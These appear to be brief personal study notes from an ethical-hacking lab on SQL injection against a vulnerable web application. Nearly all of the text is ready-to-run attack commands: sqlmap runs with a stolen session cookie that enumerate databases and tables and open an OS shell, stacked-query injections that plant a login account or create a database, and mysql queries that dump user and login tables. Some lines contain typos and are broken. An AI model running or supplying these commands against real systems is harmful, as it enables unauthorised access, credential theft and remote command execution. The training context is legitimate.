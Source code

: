 Tools 
1) N staltker web vuln analysis
2) In the vuln web app go to console type document.cookie
	1) get the cookie value
	2) `sqlmap -u "http://IP?id=?" --cookie="X" --dbs`
to insert a username into the database we can user
`blah;insert into login values ('john',apple123');--`

then login using john as user  and apple123 as pass


To create a database 
`blah;create database mydatabase;--`  


sqlmap -r request.txt from burp 

sqlmap -r request.txt --dbs
sqlmap -r request.txt -D database_name --tables
sqlmap -r request.txt -D database_name -T table_name --columns
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" --os-shell


mysql -U qdpmadmin -h 192.168.1.8 -P passwod 

show databases;
use database_name
show tables ;
select * from users;
show dtabases;
use staff;
show tables;
select * from login;
select * from user;
When you have username and Password for the database.


https://www.youtube.com/watch?v=iD84waJKYh0


